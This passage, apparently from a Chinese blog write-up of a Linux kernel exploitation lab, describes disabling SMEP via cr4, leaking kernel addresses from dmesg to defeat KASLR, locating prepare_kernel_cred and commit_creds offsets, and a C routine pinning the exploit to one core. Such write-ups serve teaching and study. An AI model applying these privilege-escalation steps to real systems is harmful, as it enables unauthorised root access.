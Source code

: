 
修改 cr4 之前，执行用户代码会报错：

![](http://upload-images.jianshu.io/upload_images/6349402-b9f1f4005ebb6932.png) 3-page_fault2.png

修改 cr4 之后，能够执行到用户代码：

![](http://upload-images.jianshu.io/upload_images/6349402-853bb7c5c0fd8040.png) 4-succeed_smep_sendmsg.png

### （2）绕过 KASLR

##### 1. 方法

**注意**：`start.sh`中开启 ASLR。

**目标**：泄露 kernel 地址，获取`native_write_cr4`、`prepare_kernel_cred`、`commit_creds`函数地址。

**说明**：一般都会开启`kptr_restrict`保护，不能读取`/proc/kallsyms`，但是通常可以`dmesg`读取内核打印的信息。

**方法**：由 dmesg 可以想到，构造 pagefault，利用内核打印信息来泄露 kernel 地址。

![](http://upload-images.jianshu.io/upload_images/6349402-b3ae8e833129a041.png) 6-dmesg_kernel_addr.png

如上图所示，可以利用`SyS_ioctl+0x79/0x90`来泄露 kernel 地址，接下来只需寻找目标函数地址的相对偏移即可。

```
# [<ffffffff8122bc59>] SyS_ioctl+0x79/0x90
/ # cat /proc/kallsyms | grep native_write_cr4
ffffffff81065a30 t native_write_cr4
/ # cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff810a6ca0 T prepare_kernel_cred
/ # cat /proc/kallsyms | grep commit_creds
ffffffff810a68b0 T commit_creds


```

##### 2. 步骤

*   在子线程中触发 page_fault，从 dmesg 读取打印信息
*   找到`SyS_ioctl+0x79`地址，计算 kernel_base
*   计算 3 个目标函数地址

### （3）整合 exp

##### 1. 单核运行

```
//让程序只在单核上运行，以免只关闭了1个核的smep，却在另1个核上跑shell
void force_single_core()
{
    cpu_set_t mask;
    CPU_ZERO(&mask);
    CPU_SET(0,&mask);

    if (sched_setaffinity(0,sizeof(mask),&mask))
        printf("[-----] Error setting affinity to core0, continue anyway, exploit may fault \n");
    return;
}


```
